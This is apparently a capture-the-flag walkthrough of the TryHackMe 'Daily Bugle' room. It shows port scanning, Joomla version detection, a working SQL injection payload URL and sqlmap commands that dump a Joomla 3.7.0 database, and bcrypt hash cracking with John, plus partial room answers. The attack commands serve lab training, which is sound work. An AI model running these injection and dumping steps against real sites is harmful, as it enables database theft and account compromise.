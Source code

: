 
# Daily Bugle CTF Walkthrough

Daily Bugle is a vulnerable server on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/dailybugle<br />
THM Difficulty: Hard<br />
My Difficulty: TBA<br />
Target IP: 10.10.217.112<br />
AttackBox IP: 10.10.222.48<br />
</i>

# Recon

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```shell
rustscan -a 10.10.217.112
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flags -sV -sC to find the service versions on the open port and to run Nmaps default scripts on the target.<br />
```
nmap -sV -p22,80,3306 10.10.217.112
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT2.png?raw=true)<br />
We have found multiple services running, let's have a closer look at these services.<br />

## HTTP Service Recon

We're going to start with looking at the HTTP Service, we can see it's running Apache 2.4.6 and PHP5.6.40 from the Nmap scan. I head over to the website below.
```shell
http://10.10.217.112/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT3.png?raw=true)<br />
Here we have our answer to the first question!<br />

Let's try having bruteforcing some directories with gobuster. I used the command below<br />
```shell
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.217.112/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT4.png?raw=true)<br />
We are given plenty of results, the one that stood out to me was the /administrator directory, probably the login page for the administrators account? Let's have a look at it now<br />
```shell
http://10.10.217.112/administrator/
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT5.png?raw=true)<br />
Our suspicion is confirmed, we know know that the web service is using Joomla!<br />

## Finding Joomla version with Metasploit

I wonder what version of Joomla they're using..? I know there's a module on Metasploit that does this so let's fire it up!<br />
```shell
msfconsole
```
Now that we have our metasploit loaded, let's look for the joomla version module.<br />
```shell
search joomla_version
use 0
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT6.png?raw=true)<br />
Now we have selected our module let's see what options it requires by using show options
```shell
show options
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT7.png?raw=true)<br />
As you can see from the options available, the only option required is RHOSTS so let's set that and run the scanner!
```shell
SET RHOSTS 10.10.217.112
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT8.png?raw=true)<br />
Success! We have found the version! This is also one of the answers to our questions. Let's see if this version has any vulnerabilities.

## Exploiting Joomla with Metasploit

We are now going to look for exploits in Joomla 3.7, let's continue in the Metasploit console and execute the folowing<br />
```shell
back
search joomla 3.7.0
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT9.png?raw=true)<br />
We can see one exploit available, let's select the exploit and run "info" for more information to make sure it's compatible with our version of Joomla.<br />
```shell
use 0
info
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT10.png?raw=true)<br />
As we can see from the results this is the correct exploit for our Joomla version. Let's try to explot Joomla! First we'll need to set the required options for the module. Then hit exploit like we did for the scanner!<br />
```shell
set RHOSTS 10.10.217.112
exploit
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT11.png?raw=true)<br />
Uh-oh something went wrong, let's have a look at the "info" command again, let's check out the exploit-db link they provide.<br />
```shell
https://www.exploit-db.com/exploits/42033
```
Let's check if we get an error message when trying to load the URL that's vulnerable. 
```shell
http://10.10.217.112/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT12.png?raw=true)<br />
We get the error message which confirms it's vulnerable to SQL injection. Let's try using SQLmap instead they have the syntax for the command on the exploit-db page.<br />

## Exploiting Joomla with SQLi using SQLMap

We're going to open up a new terminal and try the below command.<br />
```shell
sqlmap -u "http://10.10.217.112/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT13.png?raw=true)<br />
Success! We were able to get the database names, now let's dump the whole database and check the findings! We will use a similar command except replace --dbs with --dump-all. This will take a while so be patient.<br />

<b>This is not the best way to complete the CTF challenge, you could just dump the users instead of the whole database. To do this check SQLMaps syntax.</b><br />
```shell
sqlmap -u "http://10.10.217.112/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dump-all -p list[fullordering]
```
If you receive any messages or requests during the process just follow what I did below. If you understand what it's asking you, feel free to say no until you get the tables you want to dump.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT14.png?raw=true)<br />

### Just the #__users table and columns

In the example below I only pulled the table #__users and the columns, this is what you'll want to do if you want to skip dumping the whole database.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT15.png?raw=true)<br />

## Extracting data from the dumped database

SQLMap usually saves its output in the current users home directory, for example mine is /root/.sqlmap/output/10.10.217.112/dump/joomla<br />
Let's have a look at the __users column that we pulled. <br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT16.png?raw=true)<br />
Uh-oh that doesn't look right... There are a load of duplicates and the format has been ruined. At the top of the file we see the column names, let's try to work out which of the data is the user, password and e-mail.
```shell
id, name, email, params, username, password
```
My guess is that the e-mail is jonah@tryhackme.com, the username is Jonah, and the password hash $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm<br />
Let's try to crack the hash with John The Ripper! Paste the password hash into a new file and name it jonah.hash in your home directory, AttackBox would be /root/
```shell
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt jonah.hash
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/Daily_Bugle/screenshots/SCREENSHOT17.png?raw=true)<br />
Success! Let John do it's thing, once you get the password answer the question and move to the next section.



## Questions & Answers

Question 1:<br />
**Access the web server, who robbed the bank?** Spiderman<br />

Question 2:<br />
**What is the Joomla version?** 3.7.0<br />

Question 3:<br />
**What is Jonah's cracked password?** <br />

Question 4:<br />
**What is the user flag?** <br />

Question 5:<br />
**What is the root flag?** <br />

### Farewell, I hope you all enjoyed this write-up!

